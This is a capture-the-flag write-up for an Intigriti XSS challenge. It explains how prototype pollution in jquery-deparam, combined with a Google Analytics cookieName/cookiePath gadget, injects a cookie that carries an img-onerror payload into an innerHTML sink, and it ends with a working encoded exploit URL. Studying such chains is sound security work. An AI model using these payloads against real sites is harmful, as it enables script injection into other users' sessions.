



## Write-up

Looking at the [source](https://challenge-0821.intigriti.io/challenge/main.js) of the challenge, we see that when the challenge loads, the `handleLoad()` function is invoked.

```js
const handleLoad = () => {
    let username = readCookie('username');
    if (!username) {
        document.cookie = `username=unknownUser${Math.floor(Math.random() * (1000 + 1))};path=/`;
    }

    let recipe = deparam(atob(new URL(location.href).searchParams.get('recipe')));

    ga('create', 'ga_r33l', 'auto');

    welcomeUser(readCookie('username'));
    generateRecipeText(recipe);
    console.log(recipe)
}

window.addEventListener("load", handleLoad);
```

We can see that if a cookie `username` is not already set, it will be set to "unknownUser{random integer}". After that, the value inside the request parameter `recipe` is base64-decoded and then passed to this `deparam()` function.

If we look at the main challenge [page](view-source:https://challenge-0821.intigriti.io/challenge/cooking.html), we see that this function is from a library called [jquery-deparam](https://github.com/AceMetrix/jquery-deparam). We see that a Google Analytics script is also included. 🤔

```js
<script src="main.js"></script>
<script src="https://rawcdn.githack.com/AceMetrix/jquery-deparam/81428b3939c4cbe488202b5fa823ad661d64fb49/jquery-deparam.js"></script>
<script src="https://www.google-analytics.com/analytics.js"></script>
```

Looking up the `jquery-deparam` library, we found that it is used to transform a request query string into a JS object. We also found that it is vulnerable to [Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/jquery-deparam.md). This means that we are able to pollute the Object prototype and insert/modify arbitrary properties belonging to it!

So our `recipe` parameter can contain the following payload to pollute the Object prototype:

```
?__proto__[test]=test
?constructor[prototype][test]=test
```

Testing that the pollution works (sending it as part of the base-64 encoded `recipe` parameter):

```sh
__proto__%5Btest%5D=test
```



It works! However, even if we can pollute the Object prototype, it does **not** appear that the code has any clone/merge operations that would trigger any payloads that we insert.

> More on Prototype Pollution [here](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications).

So let's get back to tracing the code.

After the `recipe` value is decoded and transformed into a JS Object, a call to google analytics is made followed by setting the username label on the page to the value specified in the cookie. This code is vulnerable if we are able to control the content of `username`.

```js
function welcomeUser(username) {
    let welcomeMessage = document.querySelector("#welcome");
    welcomeMessage.innerHTML = `Welcome ${username}`;
}
```

Since the content is from `username` cookie, there must be some way to influence the value of this cookie. The google analytics code looks out of place and maybe there is some kind of sink that we can use? Surely there must be a reason why this analytics is only invoked after our `recipe` Object is initialized. 😄

Sure enough, there is a [sink](https://github.com/BlackFan/client-side-prototype-pollution/blob/master//gadgets/google-analytics.md) which will read the `cookieName` property. So, we are able to add an arbitrary cookie using the following payload:

```
?__proto__[cookieName]=COOKIE%3DInjection%3B
```

Trying out the following payload, we see that a `username` cookie with the value `1337pwned` has been added (sending it as part of the base-64 encoded `recipe` parameter):

```
__proto__%5BcookieName%5D=username%3D1337pwned%3B
```



However, there is another problem in how the cookies are processed by the application. From the `readCookie()` function, we see that it will loop through the values returned by `document.cookie` and when the substring `username=` is matched, its value will be returned (remaining cookies are ignored).

```js
function readCookie(name) {
    let nameEQ = name + "=";
    let ca = document.cookie.split(';');
    for (let i=0; i < ca.length; i++) {
        let c = ca[i];
        while (c.charAt(0)===' ') c = c.substring(1,c.length);
        if (c.indexOf(nameEQ) === 0) return c.substring(nameEQ.length,c.length);
    }
    return null;
}
```

Our injected cookie shows up as the second cookie. We will need to increase its precedence so that it will be processed before the original cookie. After looking around, it [appears that when cookies have the same name](https://www.sitepoint.com/3-things-about-cookies-you-may-not-know/), their precedence is ranked by whichever cookie has a more elaborate `Path`.

Let us then add an additional prototype pollution property, this time on `cookiePath`. We will set it to `/challenge` which will make it more precise than the default `/`.

Replacing the payload `username` cookie with a simple XSS payload (``), this leaves us with the payload:
```
__proto__%5BcookieName%5D=username%3D%3Cimg src onerror%3Dalert(document.domain)%3E;&__proto__%5BcookiePath%5D=/challenge
```

Sending this base64-encoded payload in the `recipe` request parameter:

```
https://challenge-0821.intigriti.io/challenge/cooking.html?recipe=X19wcm90b19fJTVCY29va2llTmFtZSU1RD11c2VybmFtZSUzRCUzQ2ltZyBzcmMgb25lcnJvciUzRGFsZXJ0KGRvY3VtZW50LmRvbWFpbiklM0U7Jl9fcHJvdG9fXyU1QmNvb2tpZVBhdGglNUQ9L2NoYWxsZW5nZQ==
```

... triggers the XSS:


